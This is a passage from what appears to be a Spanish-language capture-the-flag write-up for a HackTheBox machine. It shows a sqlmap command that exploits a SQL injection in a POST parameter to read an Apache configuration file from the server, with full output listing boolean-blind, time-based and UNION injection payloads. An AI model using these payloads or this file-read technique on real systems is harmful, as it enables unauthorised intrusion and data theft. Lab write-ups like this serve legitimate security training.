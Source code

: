 Antes vamos a ver que directorios hay en el sistema desde este archivo:

```shell
sqlmap -r req.txt --method=POST --batch --file-read="/etc/apache2/sites-enabled/000-default.conf"
```

Info:

```
        ___
       __H__                                                                                                                                                 
 ___ ___["]_____ ___ ___  {1.9.8#stable}                                                                                                                     
|_ -| . [(]     | .'| . |                                                                                                                                    
|___|_  [']_|_|_|__,|  _|                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:05:17 /2025-10-07/

[11:05:17] [INFO] parsing HTTP request from 'req.txt'
[11:05:17] [INFO] resuming back-end DBMS 'mysql' 
[11:05:17] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=22'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=test' AND 7323=7323 AND 'XFOM'='XFOM

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=test' AND (SELECT 8033 FROM (SELECT(SLEEP(5)))DhKr) AND 'GzyX'='GzyX

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-1513' UNION ALL SELECT NULL,CONCAT(0x7170707871,0x6669756b4d6c7a584d47634b75644e6f42454c76497a58454243665064464a596a4c7758416f4676,0x716b6a7171),NULL,NULL,NULL-- -
---
[11:05:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:05:17] [INFO] fingerprinting the back-end DBMS operating system
[11:05:17] [INFO] the back-end DBMS operating system is Linux
[11:05:17] [INFO] fetching file: '/etc/apache2/sites-enabled/000-default.conf'
do you want confirmation that the remote file '/etc/apache2/sites-enabled/000-default.conf' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[11:05:17] [INFO] the local file '/root/.sqlmap/output/vote.cobblestone.htb/files/_etc_apache2_sites-enabled_000-default.conf' and the remote file '/etc/apache2/sites-enabled/000-default.conf' have the same size (1334 B)                                                                                              
files saved to [1]:
```